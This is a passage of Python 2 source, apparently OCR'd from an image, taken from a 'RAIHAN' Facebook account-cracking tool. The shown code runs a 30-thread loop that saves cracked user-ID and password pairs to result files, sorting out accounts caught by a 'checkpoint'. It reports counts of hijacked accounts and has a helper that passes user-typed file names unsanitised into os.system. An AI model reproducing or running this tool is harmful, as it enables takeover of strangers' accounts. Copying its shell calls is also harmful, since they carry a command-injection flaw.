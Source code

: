                     ok.write(uid + '|' + ps2 + '\n')
                    ok.close()
                    oks.append(uid + ps2)
                elif 'checkpoint' in sp:
                    print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps2 + '\x1b[0;97m'
                    cp = open('CP.txt', 'a')
                    cp.write(uid + '|' + ps2 + '\n')
                    cp.close()
                    cps.append(uid + ps2)
        except:
            pass
 
 
    p = ThreadPool(30)
    p.map(main, id)
    print '\x1b[1;97m======================================================='
    print '\x1b[1;37m[=] PROCESS HAS BEEN COMPLETE'
    print '\x1b[1;37m[=] TOTAL OK : \x1b[1;32m' + str(len(oks))
    print '\x1b[1;37m[=] TOTAL CP : \x1b[1;31m' + str(len(cps))
    print '\x1b[1;97m======================================================='
    raw_input('\x1b[1;37mPRESS ENTER TO BACK MENU ')
    menu()
 
 
def cutter():
    os.system('clear')
    print logo
    print '\t\x1b[1;37mINPUT FILE REMOVE DOUBLING (/sdcard/xx.txt) '.center(50)
    print '\x1b[1;97m======================================================='
    st = raw_input('[?] INPUT FILE NAME : \x1b[1;32m')
    os.system('clear')
    print logo
    print '\x1b[1;37m[?] PUT FILE REMOVED ID OUTPUT (/sdcard/xx.txt) '.center(50)
    print '\x1b[1;97m======================================================='
    fp = raw_input('\x1b[1;37mOUTPUT NEW FILE NAME : \x1b[0;97m')
    os.system('sort -r ' + st + ' | uniq > ' + fp)
    os.system('clear')
    print logo
    print '\x1b[1;32mREMOVED DOUBLING SUCCESSFULL :) '.center(50)
    print ('\x1b[1;32mFile Save In /sdcard/' + fp).center(50)
    print '\x1b[1;97m======================================================='
    raw_input('PRESS ENTER TO BACK ')
    menu()
 
if __name__ == '__main__':
    token()

